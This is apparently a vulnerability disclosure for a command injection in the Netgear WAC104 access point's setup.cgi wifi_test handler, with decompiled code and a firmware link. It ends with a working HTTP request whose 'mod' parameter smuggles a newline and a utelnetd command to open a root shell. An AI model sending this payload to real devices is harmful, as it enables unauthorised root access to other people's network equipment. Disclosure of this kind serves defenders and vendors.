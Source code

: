## Netgear WAC104 todo=wifi_test Authentication Command Injection Remote Command Execution Vulnerability

### 1.Vulnerability description

A authenticated remote command injection vulnerability exists in Netgear WAC104, which can be exploited by an authenticated remote attacker to cause Remote command execution (RCE) on an affected Netgear WAC104.<br>
<br>
The vulnerability exists in the latest firmware version ： WAC104-V1.0.4.21.img<br>
<br>
Firmware download address : https://www.downloads.netgear.com/files/GDC/WAC104/WAC104_firmware_V1.0.4.21.zip?_ga=2.248054530.446711973.1711967533-1975873394.1711967533<br>

### 2.Vulnerability details

The vulnerability is in the /usr/sbin/setup.cgi file.<br>
The vulnerability occurs in the function that handles the todo=wifi_test.<br>

```
int __fastcall sub_409C50(int a1)
{
  const char *v2; // $s2
  const char *v3; // $s1
  const char *v4; // $s0

  v2 = find_val_safe(a1, "channel");
  if ( !v2 )
    v2 = " ";
  v3 = find_val_safe(a1, "rate");
  if ( !v3 )
    v3 = " ";
  v4 = find_val_safe(a1, "mod");
  if ( !v4 )
    v4 = " ";
  COMMAND("/usr/sbin/rc fcc fcc:c%s:r%s:m%s", v2, v3, v4); //  Command Injection !!!
  html_parser("fcc.htm", a1, &key_fun_tab);
  printf("Command==fcc:c%s:r%s:m%s", v2, v3, v4);
  return 0;
}
```

The mod parameter is controlled by the attacker, and then a call to the COMMAND function can cause command injection.<br>

### 3.Vulnerability exploitation

The effect of the current exploitation is command injection.<br>
I got the root shell by executing the following command.<br>

```
data = b""
data += b"GET /setup.cgi?todo=wifi_test&channel=1&rate=1&mod=%0a/usr/sbin/utelnetd HTTP/1.1\r\n"
```